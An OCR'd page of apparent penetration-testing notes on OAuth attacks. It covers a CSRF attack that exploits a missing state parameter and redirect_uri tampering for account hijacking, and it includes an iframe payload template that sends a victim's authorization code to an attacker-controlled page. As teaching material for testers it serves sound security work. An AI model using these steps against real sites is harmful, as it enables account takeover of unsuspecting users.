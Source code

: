
# 11	OAUTH

## 11.1	OVERVIEW

### 11.1.1	ACTORS [34]

- Client application: The website or web application that wants to access the user's data.
- Resource owner: The user whose data the client application wants to access.
- OAuth service provider: The website or application that controls the user's data and access to it. They support OAuth by providing an API for interacting with both an authorization server and a resource server.

## 11.2	LACK OF STATE PARAMETER

### 11.2.1	DESCRIPTION [34]

- The state parameter should ideally contain an unguessable value, such as the hash of something tied to the user's session when it first initiates the OAuth flow.
- This value is then passed back and forth between the client application and the OAuth service as a form of CSRF token for the client application.

### 11.2.2	CSRF ATTACK

- If application does not have a state parameter

- Proceed with application flow until code is provided

`GET /oauth-login?code=oq3qEnE0sLDSvC0pU5sJH_F6Fl_D2-0LarqzpRvQMuh`

- Drop this request, so the code stays valid. Induce victim to click on link.

- Victim's client application account will now be tied to attacker's OAuth service provider.

## 11.3	REDIRECT_URI TAMPERING

### 11.3.1	DESCRIPTION [34]

- Depending on the grant type, either a code or token is sent via the victim's browser to the /callback endpoint specified in the redirect_uri parameter of the authorization request.
- An attacker may be able to construct a CSRF-like attack, tricking the victim's browser into initiating an OAuth flow that will send the code or token to an attacker-controlled redirect_uri

### 11.3.2	ACCOUNT HIJACKING

- Create a malicious page with iframe

`src = https://<OAUTH_SERVER>/auth?client_id=<CLIENT_ID>&redirect_uri=https://<MALICIOUSPAGE/EXPLOIT>&response_type=code&scope=openid%20profile%20email`

- Once victim clicks link, attacker's malicious /exploit endpoint will receive a request will receive generated code on behalf of victim

